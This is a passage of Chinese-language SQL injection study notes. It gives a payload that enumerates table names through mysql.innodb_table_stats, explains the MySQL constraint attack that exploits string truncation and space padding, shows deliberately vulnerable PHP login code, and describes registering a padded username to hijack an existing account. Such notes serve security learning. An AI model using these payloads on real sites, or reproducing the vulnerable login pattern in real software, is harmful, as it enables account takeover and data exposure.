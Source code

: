 ```
database_name ， table_name 
```

- 例子：

```
group_concat(table_name) from mysql.innodb_table_stats where database_name =database() #
```

## Mysql约束攻击

- 参考

>> http://www.goodwaf.com/2016/12/30/%E5%9F%BA%E4%BA%8E%E7%BA%A6%E6%9D%9F%E6%9D%A1%E4%BB%B6%E7%9A%84SQL%E6%94%BB%E5%87%BB/

- 条件限制

```
服务端没有对用户名长度进行限制
登陆验证的SQL语句必须是用户名和密码一起验证
验证成功后返回的必须是用户传递进来的用户名，而不是从数据库取出的用户名
```

- 攻击原理

```
INSERT截断:当设计一个字段时，我们都必须对其设定一个最大长度，比如CHAR(10)，VARCHAR(20)等等。但是当实际插入数据的长度超过限制时，数据库就会将其进行截断，只保留限定的长度。
```

```
在数据库对字符串进行比较时，如果两个字符串的长度不一样，则会将较短的字符串末尾填充空格，使两个字符串的长度一致，比如，字符串A:[String]和字符串B:[String2]进行比较时，由于String2比String多了一个字符串，这时MySQL会将字符串A填充为[String ]，即在原来字符串后面加了一个空格，使两个字符串长度一致。
```

- 服务端代码

```
<?php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT username FROM users
          WHERE username='$username'
              AND password='$password' ";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0){
      return $username;//此处较原文有改动
  }
}
return Null;
?>
```
- 攻击

```
注册一个[Dumb          done]的用户
```
